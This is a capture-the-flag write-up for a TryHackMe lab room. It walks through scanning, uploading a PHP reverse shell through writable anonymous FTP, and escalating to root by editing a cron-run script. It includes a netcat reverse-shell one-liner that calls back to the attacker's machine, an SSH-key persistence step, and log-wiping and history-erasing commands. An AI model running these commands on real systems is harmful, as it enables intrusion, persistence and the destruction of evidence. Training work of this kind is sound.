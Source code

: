 ```yaml
---
title: "THM:startup"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/startup"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,ssh2john,linpeas,privesc,cron]
---
```

# startup

URL: [https://tryhackme.com/room/startup](https://tryhackme.com/room/startup) &nbsp;<span class="badge rounded-pill bg-success" title="This is an Easy difficulty room."><i class="fa fa-bolt"></i>&nbsp;Easy</span>

## PHASE 1: Reconnaissance

Description of the room:

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Anonymous FTP has an Among Us meme, and a text file telling people to stop leaving memes on that file share. The `ftp` folder is writable. That could be something?

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found:

```python
/files                (Status: 301) [Size: 312] [--> http://10.10.159.60/files/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Nothing interesting found.


Also see: [nikto.log](nikto.log)

## PHASE 3: Gaining Access

### Unprivileged Access

Since the anonymous FTP folder `/ftp/` is writeable, you can do a `put revshell.php` into that folder, and then execute that reverse shell from the `/files/revshell.php` URL in the browser.

That will get you a primitive shell running as the `www-data` user.

### Privilege Escalation (power user)

First, to privesc into the `lennie` account (you can see their home folder under `/home/`), look in the `incidents` folder for a pcap file. If you download that file and view it with Wireshark, you can see there was a password attempt. It was a bad password attempt for `www-data`, but that IS the password for `lennie`.

Meaning, you can now do `su - lennie` with that newly found password. You are now logged-in as `lennie`.

### Privilege Escalation (root)

The Hint from TryHackMe for root privesc is "scripts". Well, in Lennie's home folder there is a `~/scripts/` folder. In there is a bash script that calls `/etc/print.sh`. In short, it looks like something external kicks off that script, but we don't know what it is.

So, we modify `/etc/print.sh` to reverse shell back to our workstation by adding something like:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```

and then listen on your workstation with something like this:

```bash
nc -lvnp 8080
```

After a minute or so, you've got a prompt, and it's a root prompt!


## PHASE 4: Maintaining Access

To not have to deal with half-broken shells, I added my SSH public key to `/home/lennie/.ssh/authorized_keys` and set the permissions on that file to `chmod 600 ./authorized_keys`. That way, instead of working out of reverse shells with bad rendering, I could now just:

```bash
ssh lennie@x.x.x.x
```

## PHASE 5: Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/lennie/.bash_history`

## Summary

Completed: [2023-07-20 21:01:11]